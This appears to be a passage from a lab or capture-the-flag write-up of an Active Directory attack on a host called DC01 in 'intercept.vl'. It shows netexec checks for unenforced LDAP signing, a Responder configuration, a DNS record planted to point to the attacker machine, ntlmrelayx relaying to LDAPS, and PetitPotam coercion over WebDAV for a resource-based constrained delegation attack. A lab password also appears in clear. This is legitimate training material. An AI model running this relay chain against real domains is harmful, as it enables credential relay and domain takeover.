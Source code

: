 ```bash
netexec ldap 10.10.152.69 -u 'KATHRYN.SPENCER' -p 'Chocolate1' -M ldap-checker
SMB         10.10.152.69    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        10.10.152.69    389    DC01             [+] intercept.vl\KATHRYN.SPENCER:Chocolate1 
LDAP-CHE... 10.10.152.69    389    DC01             LDAP Signing NOT Enforced!
LDAP-CHE... 10.10.152.69    389    DC01             LDAPS Channel Binding is set to "NEVER"
```
So using WEBDAV Coercion, which use HTTP so NTLM authentication, we can relay authentication to the DC.

Thanks to this we can perform a RBCD attack

[Here a good link](https://www.bussink.net/rbcd-webclient-attack/)

First we need to create a DNS entry that points to our host, let's use Responder and DnsTool for that :

```bash
# modify the config of Responder like that :
; Servers to start
SQL      = On
SMB      = Off
RDP      = On
Kerberos = On
FTP      = On
POP      = On
SMTP     = On
IMAP     = On
HTTP     = Off
HTTPS    = On
DNS      = On
LDAP     = On
DCERPC   = On
WINRM    = On
SNMP     = Off
MQTT     = On

# Now start responder
Responder.py -I tun0

# And add a dns entry
dnstool.py -u 'intercept.vl\Kathryn.Spencer' -p REDACTED --action add --record WIN-4Q7AYHZHKNX.intercept.vl --data 10.8.2.163 --type A 10.10.152.69
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
Nice now let's start : 

```bash
# Start ntlmrelayx 
ntlmrelayx.py -t ldaps://10.10.152.69 --delegate-access -smb2support

# And coerce with petitpotam
petitpotam.py -d "intercept.vl" -u "KATHRYN.SPENCER" -p "REDACTED" WIN-4Q7AYHZHKNX@80/randomfile.txt 10.10.152.70
```
